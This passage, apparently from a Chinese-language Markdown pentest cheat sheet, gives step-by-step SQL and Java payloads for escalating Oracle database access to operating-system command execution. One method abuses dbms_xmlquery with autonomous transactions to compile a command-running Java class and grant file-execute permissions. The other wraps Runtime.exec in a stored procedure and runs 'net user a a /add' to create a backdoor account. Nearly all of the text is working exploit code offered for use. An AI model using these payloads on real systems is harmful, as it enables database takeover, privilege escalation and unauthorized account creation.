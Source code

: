             ```sql
            select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
            ```
        - 获取java权限
            ```sql
            select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
            ```
        - 创建用来执行命令的函数
            ```sql
            select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
            ```
        - 执行命令
            ```sql
            select LinxRUNCMD('whoami') from dual;
            ```
    - create procedure权限提权到系统 shell(存储过程执行命令)
        - 创建一个java class然后用procedure包装它进行调用
            ```sql
            create or replace and resolve java source named JAVACMD as
                import java.lang.*;
                import java.io.*;
                public class JAVACMD
                {
                    public static void execmd(String command) throws IOException
                    {
                        Runtime.getRuntime().exec(command);
                    }
                }
                /
            ```
        - 创建调用的包
            ```sql
            create or replace procedure JAVACMDPROC(command in varchar) as language java
                name 'JAVACMD.execmd(java.lang.String)';
            /
            ```
        - 执行命令
            ```sql
            EXEC JAVACMDPROC('net user a a /add');
            ```
            会因为代码中没有捕获异常而出现报错,再执行一次即可
